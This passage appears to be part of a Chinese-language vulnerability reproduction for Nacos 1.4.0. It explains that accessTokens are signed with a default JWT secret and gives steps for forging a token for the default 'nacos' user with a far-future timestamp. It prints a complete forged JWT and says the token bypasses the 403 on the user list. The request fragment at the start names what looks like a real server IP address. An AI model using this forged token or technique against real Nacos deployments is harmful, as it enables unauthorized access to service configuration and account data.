 Origin: http://47.83.174.204:8848  
  
Connection: keep-alive  
  
Referer: http://47.83.174.204:8848/nacos/  
  
Priority: u=0  
  
  
```
```  
  
由于返回的accessToken只是对账号进行加密得到的.  
  
而且nacos加密用户accessToken使用的jwt默认密钥加密，也就是只要知到nacos的用户，任何人都能通过此密钥加密用户得到对应用户的accessToken.  
  
nacos存在默认用户nacos，所以我们可以尝试获取此默认用户的nacos。  
  
漏洞复现  
  
测试版本：nacos1.4.0  
  
1. 生成时间戳比现在时间晚就行，比如现在时间为2024.9.3，则修改为2024.9.4或者更晚的时间  
> https://tool.lu/timestamp/  
  
  
![1745677522_680cecd2e55aae22cf8b5.png!small?1745677523833](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia26lNcnUx5cicXWCSn86eQ7bNaJtNRXIG8rUru43bmNrJ8kNLmeh2rTQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
我直接生成到2080了直接用我的就行  
> 3481367106  
  
  
2. 生成key。  
> https://jwt.io/  
  
  
复制默认的key，填写如下所示  
  
![1745677696_680ced801ebcd3aeae030.png!small?1745677697286](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaHzMkMY0wafXEmSaz9Iu2ErmshYpib68xb0wm6MYoydicJh6ibcwfkxicQQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImlhdCI6MTc0NTgzNTYwOH0.gk9tFDRWDozKj-fsLAXSxnpojBklSaOVPNbUneqTSpw  
>   
> {  
  
"sub": "nacos",  
  
"iat": 1745835608  
  
}  
> {  
  
"alg": "HS256",  
  
"typ": "JWT"  
  
}  
>   
> 带上token访问用户列表即可绕过403  
  
  
![1745677738_680cedaa713e0c9d53c9a.png!small?1745677740114](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaotYQI2NyQRgLbfLoezYMLZqKjvNUllzhIVrEbV5hW8Xy2F7OGBLKXg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
